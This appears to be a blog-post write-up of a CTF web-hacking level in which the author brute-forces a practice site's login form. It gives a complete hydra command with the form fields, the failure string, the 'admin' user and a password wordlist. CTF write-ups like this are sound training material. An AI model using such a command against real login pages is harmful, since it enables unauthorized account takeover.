 ```yaml
---
layout: page 
title :  Infosecinstitute CTF 2 - LEVEL 12
categories : [security, CTF]
---
```


This will be solution for Level 12  [Practical Web Hacking](http://ctf.infosecinstitute.com "Practical Web Hacking") CTF #2. 

In this level unfortunately we have a very realistic example of how easy it is to bruteforce web applications, our objective is to try to bruteforce a login and password.
The procedure is very simple we need to collect the information that would allow us to execute the requested as if it were made by the browser.

## Tasks
1. Collect input names.
3. find the sugested wordlist.
2. setup hydra.


The world list suggested is a very known from john ripper, so we set our brute force application with the following.

{% highlight bash %}
	hydra ctf.infosecinstitute.com http-form-post \
	"/ctf2/exercises/ex12.php:username=^USER^&password=^PASS^&logIn=Login:\
	Incorrect username or password combination" \
	-l admin -P password-2011.lst -t 10 -w 30 -o logins.txt 
{% endhighlight %} 


![hydra]({{ site.url }}/assets/level12-01.png)

Success!


<iframe width="560" height="315" src="//www.youtube.com/embed/qXe7Qxxhbsk" frameborder="0" allowfullscreen></iframe>
